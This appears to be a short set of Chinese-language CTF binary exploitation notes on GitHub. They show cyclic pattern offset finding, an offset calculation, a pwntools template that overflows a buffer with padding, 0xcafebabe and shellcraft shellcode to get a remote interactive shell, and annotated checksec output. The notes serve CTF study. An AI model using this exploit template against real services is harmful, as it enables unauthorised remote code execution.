 ### Record some expolit of  payload.
因常常忘記...於是紀錄一下各種解題方法。

[Binary exploit 筆記](https://hackmd.io/GzDGwJgUwVgdgLQGYYBZGtAM0QTgEb5IKoAcWUAJsKcElPqUA===)

試bof字串：

```
>>> cyclic(52)

'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaa'

>>> hex(0x21DD09EC - 0x10101010)

'0x11ccf9dc'

echo $((0x48-0x14))

52
```

#### pwntools起手式

```
#!/usr/bin/python 
# -*- coding: utf-8 -*-
from pwn import *
context.arch = "amd64"
# 0xcafebabe
r = remote('ip', port)

shell = asm(shellcraft.sh())

buf = p32(0xcafebabe)

payload = "A"*52
payload += buf
payload += shell

r.sendline(payload)

a = r.recvline().strip() # 接收回傳的字串
print a

r.interactive()
```

```
gdb-peda$ checksec
CANARY    : disabled //栈保护 
FORTIFY   : disabled //和栈保护都是gcc的新的为了增强保护的一种机制，防止缓冲区溢出攻击
NX        : ENABLED  //DEP
PIE       : disabled //ASLR
RELRO     : Partial  //设置符号重定向表格为只读或在程序启动时就解析并绑定所有动态符号，从而减少对GOT（Global Offset Table）攻击。RELRO为” Partial RELRO”，说明我们对GOT表具有写权限。
```
